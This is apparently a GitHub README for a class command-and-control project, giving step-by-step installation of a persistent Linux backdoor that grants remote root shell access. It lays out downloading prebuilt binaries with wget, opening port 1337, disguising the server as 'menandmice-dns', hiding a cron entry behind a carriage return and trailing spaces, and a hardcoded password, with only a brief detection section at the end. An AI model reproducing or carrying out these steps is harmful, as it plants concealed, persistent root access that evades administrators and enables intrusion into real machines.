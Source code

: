 # Command and Control Project

This repo contains the implementation of a backdoor that can be installed on a Linux machine running Python 2.7 and allows for remote root shell access that persists over machine reboots. Installation of the backdoor requires root privileges.

## Installation

Download the compiled client and server files onto your kali machine (or whichever machine you will be using to access the backdoor).
```shell
wget "https://github.com/Creampelt/c2-project/raw/main/dist/client" & wget "https://github.com/Creampelt/c2-project/raw/main/dist/server"
```

Make client and server files executable.
```shell
chmod +x client server
```

Copy the server executable onto the host machine.
```shell
scp server [user]@[IP address]:/home/user/server
```

SSH into the host machine and elevate yourself to root.

As root, move the server file and rename it.
```shell
mv /home/user/server /usr/bin/menandmice-dns
```

Disable the machine’s firewall on port 1337.
```shell
sudo firewall-cmd --permanent --add-port=1337/tcp
```

Edit the machine’s cron jobs.
```shell
crontab -e
```

Add the following line (including the 108 trailing spaces) to the bottom of the file. You will need to replace the “\r” character with Ctrl-V + Ctrl-M (in VIM), or Meta-V + Meta-M (in nano). For other editors, Google how to add a **carriage return** character.
```shell
* * * * * /usr/bin/flock -n /tmp/fcj.lockfile /usr/bin/menandmice-dns > /dev/null 2>&1 #\r                                                                                                            
```

Verify that the line you just added is blank when running
```shell
crontable -l
```
If it is still visible, you may need to add more spaces.

The backdoor should be up and running! You may need to wait for up to one minute. You can verify that the backdoor is running with the following command:
```shell
sudo ss -tulpn | grep 1337
```

The expected output should be something like:
```shell
tcp    LISTEN     0      1      10.0.2.5:1337    *:*    users:(("menandmice-dns",pid=4957,fd=4))
```

Restart the host machine for the firewall changes to take effect. It may take up to a minute after rebooting for the server to be up.
```shell
sudo reboot
```

From the kali machine, run the client executable followed by the IP address of the host machine. For example, my host machine’s address is 10.0.2.5, so I would run
```shell
./client 10.0.2.5
```

When prompted for a password, enter “mainframe”.

That’s it! You should have root access to the host machine. If for any reason the program crashes, it should reboot within one minute.

## How it works

The backdoor creates a server that listens on port 1337. Upon receiving a connection request, the server verifies the client by sending a password request (simply a string, “PASSWORD VERIFICATION”). If the client does not respond with the correct password within three attempts, the server closes the connection. Otherwise, the server simply executes any input received from the client in the shell and sends the output back to the client (note: “cd” is handled as a special case, since it requires changing the current working directory of the program). The backdoor script is added as a cron job using flock, which will only run the program if it is not currently running (i.e. on startup or if the program crashes). Additionally, all data sent from the server and client is encrypted using symmetric AES encryption.

The implementation for the server and client can be found under [server.py](https://github.com/Creampelt/c2-project/blob/main/server.py) and [client.py](https://github.com/Creampelt/c2-project/blob/main/client.py) respectively. Code for encryption and password verification can be found under [encrypt.py](https://github.com/Creampelt/c2-project/blob/main/server.py). Built files are in the [dist/](https://github.com/Creampelt/c2-project/tree/main/dist) directory.

## Addressing requirements

### Remote root shell access:

The server executes any commands received from the client, and returns any output from those commands to the client. Since the cron job is created with root permissions, the server will execute all commands as root.

### Persistence even if the machine reboots:

Since the script is run by a cron job, the longest that the server will be down is one minute. This ensures persistence across reboots and crashes.

### Configuration:

The program is configured through the IP address parameter on the client side. The server is automatically hosted on the local host, so it will adapt to any machine that it is run on. If desired, you can also change the port of the server and client by changing the PORT constant at the top of server.py and client.py and recompiling using pyinstaller. Note that the user’s IP address does not need to be configured, as the identity of the user is verified through the passcode.

### Authentication:

The server authenticates the client by requiring a password before allowing access to the shell. Additionally, AES encryption of data sent over the socket prevents third parties from spying on or intercepting/interfering with network traffic.

### Hiding itself:

There are two main ways that this program hides itself. The first is as a cron job — we added the carriage return character, followed by 100 spaces, so that when the contents of the file are cat-ed, the spaces overwrite the cron job and obscure that specific line. The second is through naming — I selected the name “menandmice-dns” because the menandmice-dns service is registered in /etc/services on port 1337, so a cursory glance/comparison between /etc/services and the service running on port 1337 will not raise suspicion.

## Detecting the backdoor

The best method to detect the backdoor is through a more thorough examination of the cron jobs. While our current configuration does obscure the command when running `cat` or `crontable -l`, running `crontable -e` will immediately expose it.
